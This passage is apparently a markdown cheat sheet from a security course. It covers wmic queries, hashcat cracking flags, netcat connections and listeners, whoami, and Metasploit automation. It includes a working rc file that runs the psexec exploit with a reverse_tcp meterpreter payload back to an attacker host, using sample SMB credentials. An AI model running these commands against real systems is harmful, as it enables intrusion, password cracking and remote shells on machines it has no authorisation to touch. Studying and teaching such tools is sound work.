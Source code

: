 Useful examples: 
- `wmic process where name="FlashUpdate.exe" list full`
- `wmic service where name="WpnUserService_5d314e6" list full`
&nbsp;
&nbsp;
## OS Agnostic CLI
&nbsp;
&nbsp;
### H 
#### hashcat 
`hashcat some_file_of_hashes some_wordlist` attempts to crack the hashes using the provided wordlist
- `-a` sets hashcat to attack mode (used when cracking passwords)
- `-h` shows the help menu (useful for finding which hashing mode you want to use)
- `-m` sets the hashing mode
&nbsp;
&nbsp;
### N 
#### netcat , ncat, nc
`netcat 192.168.0.2 4444` makes a connection to 192.168.0.2 on port 4444
- `-lp {PORT}` opens listener on `{PORT}`
- `-v` turns on verbose mode
- `-u` forces udp traffic
&nbsp;
&nbsp;
### W 
#### whoami 
`whoami` prints the username of whomever you're currently logged on as
&nbsp;
---
&nbsp;
# Frameworks
## Metasploit
&nbsp;
&nbsp;
### Automation 
Store raw msfconsole commands in `.rc` files and then execute them with `msfconsole -q -r some_rc_file.rc`.
Example rc file:
```
use exploit/windows/smb/psexec
set PAYLOAD windows/meterpreter/reverse_tcp
set RHOST 10.10.0.1
set SMBUSER sec504
set SMBPASS sec504
set LHOST 10.10.75.1
exploit
```
&nbsp;
&nbsp;
### msfconsole 
`msfconsole` launches the console
#### Arguments 
- `-q` launch in quiet mode (slightly faster)
&nbsp;